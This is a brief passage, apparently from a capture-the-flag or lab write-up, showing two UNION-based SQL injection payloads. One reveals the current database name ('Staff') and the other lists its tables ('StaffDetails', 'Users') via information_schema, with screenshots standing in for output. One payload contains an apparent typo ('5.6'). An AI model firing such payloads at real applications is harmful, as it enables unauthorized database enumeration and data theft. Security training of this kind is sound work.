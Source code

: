 Current database : `Staff`

```sql
' union all select 1,2,3,4,5.6,database(); -- -
```

![](/assets/obsidian/0939ed5bf5a68246be90bd24c12a960c.png)

Tables in database `Staff` : `StaffDetails,Users`

```sql
' union all select 1,2,3,4,5.6,group_concat(table_name) FROM information_schema.tables where table_schema = "Staff"; -- -
```

![](/assets/obsidian/de5316ac928d8d01b33d0e8442b8562f.png)
